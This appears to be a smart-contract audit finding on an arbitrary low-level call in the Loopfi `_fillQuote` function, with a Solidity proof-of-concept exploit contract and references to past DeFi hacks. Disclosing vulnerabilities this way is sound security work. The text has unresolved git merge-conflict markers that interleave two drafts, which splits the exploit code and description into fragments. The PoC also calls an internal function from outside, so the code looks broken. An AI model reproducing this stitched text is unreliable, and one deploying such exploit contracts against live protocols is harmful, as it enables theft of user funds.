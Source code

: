          function exploit() external pure returns (string memory) {
             return "Exploited successfully";
         }
     }

     // Exploitation contract to trigger the malicious behavior
     contract TestArbitrarySend {
         PrelaunchPoints public prelaunchPoints;
         Malicious public malicious;
=======

-  **Description**:
>>>>>>> refs/remotes/origin/theyardmic

The `_fillQuote` function in the Loopfi contract employs a low-level `call` to interact with an arbitrary address specified by `exchangeProxy`, executing any code contained in the `swapCallData`.

<<<<<<< HEAD
         function exploit() external {
             bytes memory swapCallData = abi.encodeWithSignature("exploit()");

             // Trigger the _fillQuote function with data that invokes the malicious contract
             prelaunchPoints._fillQuote(IERC20(address(0)), 0, swapCallData);

             // Verify the exploit succeeded by checking the malicious contract's state
             require(malicious.receivedAmount() > 0, "Exploit failed");
         }
     }
     ```
   - **Examples of Protocols Affected by Similar Issues**:
     - **The DAO Hack (2016)**: Demonstrated how vulnerabilities in contract logic could be exploited to drain funds, highlighting the importance of rigorous contract validation.
     - **Parity Multisig Wallet Vulnerability (2017)**: Exploited how improper handling of external contract calls led to the loss of funds.
     - **bZx Protocol (2020)**: Showed how manipulation of external interactions could result in significant financial losses.
=======
It's designed to facilitate various interactions within Loopf.One criticial functionality is users  borrowing ETH and participating in the decentralized finance (DeFi) ecosystem, with the `exchangeProxy` potentially playing a pivotal role in these processes.
  

However, this design introduces a significant risk: if the `exchangeProxy` is compromised or if the `swapCallData` contains malicious instructions, the function could execute unintended or harmful actions.

Given the capacity of `_fillQuote` to execute arbitrary code, the platform is vulnerable to unauthorized ETH transfers, state manipulations, and broader contract exploitation.

  

-  **Lines**: [584](src/PrelaunchPoints.sol#L530-L547)

-  **Code Context**:

```javascript

function  _fillQuote(IERC20  token, uint256  amount, bytes  memory  swapCallData) internal {

(bool success,) =  payable(exchangeProxy).call{ value: 0 }(swapCallData);

require(success, "Swap failed");

}

```
